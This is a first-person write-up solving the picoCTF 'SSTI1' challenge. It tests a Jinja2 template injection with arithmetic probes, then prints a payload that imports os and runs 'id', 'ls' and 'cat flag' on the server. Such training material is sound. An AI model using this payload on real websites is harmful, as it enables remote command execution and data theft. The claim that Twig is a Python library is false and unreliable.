 In this article, I will go through my thought process and the steps I took to complete my first PicoCTF challenge, which is the Web Exploitation SSTI1 challenge. SSTI stands for Server-side Template Injection, which is a type of vulnerability where an attacker injects malicious template expressions into input fields that gets processed by the server’s template engine. [This vulnerability causes risks such as information disclosure, remote code execution (RCE) and could grant access to sensitive server-side data such as user data, configuration files and session tokens stored in server memory.](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/18-Testing_for_Server-side_Template_Injection?) Hence why it is crucial to put measures in place to prevent such attacks.
![Problem Description](https://blog.cbarkr.com/media/ctf/picoCTF/SSTI1/description.png)
Once the challenge starts, By clicking **Check out my website here!**, we arrive at this page:
![Home](https://blog.cbarkr.com/media/ctf/picoCTF/SSTI1/home.png)

It’s implied that this website is vulnerable to SSTI, or server side template injection. Websites use template engines to create dynamic content, and SSTI vulnerabilities arise when user-supplied input is supplied to these template engines. Malicious actors may exploit this to inject code into the site.
![Diagram](https://blog.cbarkr.com/media/ctf/picoCTF/SSTI1/engine.png)

To see if we can execute code, we can simply try some operation and put it in brackets to see if it will execute. I tried executing `{7*7}` and it didn’t work, so I added extra brackets and it worked!
![{{7*7}}](https://blog.cbarkr.com/media/ctf/picoCTF/SSTI1/7x7.png)
![result](https://blog.cbarkr.com/media/ctf/picoCTF/SSTI1/49.png)
Note that `7*7` was evaluated! Then for `{{7*'7'}}`:
![777777](https://blog.cbarkr.com/media/ctf/picoCTF/SSTI1/7777777.png)
Similarly, the input was evaluated. Therefore, this site is in fact vulnerable, and is using either `Jinja2` or `Twig`. Both options are Python libraries, hence our payload will consist of Python.
If we try something like `{{request}}`, we can access the request object itself:
![resuest method](https://blog.cbarkr.com/media/ctf/picoCTF/SSTI1/request_result.png)
I used a payload found on this blogpost: [onsecurity](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/). I tried the a payload that allows RCE bypassing and it worked:
```
{{request.application.__globals__.__builtins__.__import__(‘os’).popen(‘id’).read()}}
```
![ssti1_ID.png](images/ssti1_ID.png)
Now we can go back and tweak some of the data to see what else we can find. I tried replacing “id” (this is a Linux system command that prints out user and group information for the current user) to “ls” like on a Linux terminal to see the files and directories in the current working directory:
```
{{request.application.__globals__.__builtins__.__import__(‘os’).popen(‘ls’).read()}}
```
![SSTI1_ls.png](images/SSTI1_ls.png)
We can see that there is a “flag” file, which most likely contains the flag for this challenge, so I want to see the content of that file. To do so, I use the Linux command cat and then the name of the file (flag) in the payload:
`{{request.application.__globals__.__builtins__.__import__(‘os’).popen(‘cat flag’).read()}}`
![flag.png](images/flag.png)

#### Challenge completed!
